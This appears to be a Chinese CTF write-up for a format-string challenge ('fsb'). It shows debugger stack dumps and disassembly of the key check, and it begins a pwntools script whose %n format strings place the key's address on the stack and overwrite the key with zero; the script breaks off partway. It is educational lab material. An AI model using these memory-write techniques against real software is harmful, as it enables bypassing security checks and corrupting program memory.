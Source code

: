 ## fsb

此题目给了源码存在明显的字符串格式化漏洞，但是格式化字符串保存在bss段中，不在栈上就限制了漏洞的直接利用，首先在格式化处下断点看看栈上有哪些可利用的内容：

```
gef➤  x/32xw $esp
0xffef46e0:	0x0804a100	0x0804a100	0x00000064	0x00000000
0xffef46f0:	0x00000000	0x00000000	0x00000000	0x00000000
0xffef4700:	0x00000000	0x08048870	0x00000000	0x00000000
0xffef4710:	0xffef6aa0	0xffef8ff1	0xffef4730	0xffef4734
0xffef4720:	0x00000000	0x00000000	0xffef68c8	0x08048791
0xffef4730:	0x00000000	0x00000000	0x00000000	0x00000000
0xffef4740:	0x00000000	0x00000000	0x00000000	0x00000000
0xffef4750:	0x00000000	0x00000000	0x00000000	0x00000000
gef➤  grep 0x0804A060
[+] Searching '\x60\xA0\x04\x08' in memory
[+] In '/home/larry/tools/Rookiss/fsb/fsb'(0x8048000-0x8049000), permission=r-x
  0x8048687 - 0x8048697  →   "\x60\xA0\x04\x08[...]" 
  0x804871c - 0x804872c  →   "\x60\xA0\x04\x08[...]" 
  0x804874f - 0x804875f  →   "\x60\xA0\x04\x08[...]" 
[+] In '/home/larry/tools/Rookiss/fsb/fsb'(0x8049000-0x804a000), permission=r--
  0x8049687 - 0x8049697  →   "\x60\xA0\x04\x08[...]" 
  0x804971c - 0x804972c  →   "\x60\xA0\x04\x08[...]" 
  0x804974f - 0x804975f  →   "\x60\xA0\x04\x08[...]" 
[+] In '[stack]'(0xff965000-0xff986000), permission=rw-
  0xff9847b4 - 0xff9847c4  →   "\x60\xA0\x04\x08[...]" 
  0xff9847c4 - 0xff9847d4  →   "\x60\xA0\x04\x08[...]" 
```

虽然栈上有前栈帧信息，但也只能算出低几位的key，没有太大意义。可以利用字符串格式化漏洞在栈上写入key的地址`0x0804A060`再读取出key的内容，或者在栈上本来就有固定相对偏移的地方保存着key的地址，也可以读取。正确读取出key的内容时，发现不能通过比较，调试可知`mov edx, eax; sar edx, 1Fh`毁掉了原始输入的4个字节：

```
.text:08048676 call    _strtoull
.text:0804867B mov     edx, eax
.text:0804867D sar     edx, 1Fh
.text:08048680 mov     [ebp+var_30], eax
.text:08048683 mov     [ebp+var_2C], edx
.text:08048686 mov     eax, dword ptr ds:key
.text:0804868B mov     edx, dword ptr ds:key+4
.text:08048691 mov     ecx, edx
.text:08048693 xor     ecx, [ebp+var_2C]
.text:08048696 xor     eax, [ebp+var_30]
.text:08048699 or      eax, ecx
.text:0804869B test    eax, eax
.text:0804869D jnz     short loc_80486
```

既然原始输入会被毁掉，那我毁掉原始的key值总是可以的吧，利用字符串格式化漏洞在栈上写入key地址，再对该地址写入为0，利用脚本如下：

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'

gdb_init = '''
b *0x08048610
c
'''

fmt1 = '%' + str(0x0804A060) + 'c%14$n'
fmt2 = '%' + str(0x0804A064) + 'c%15$n'
write1 = '%20$n'
write2 = '%21$n'

```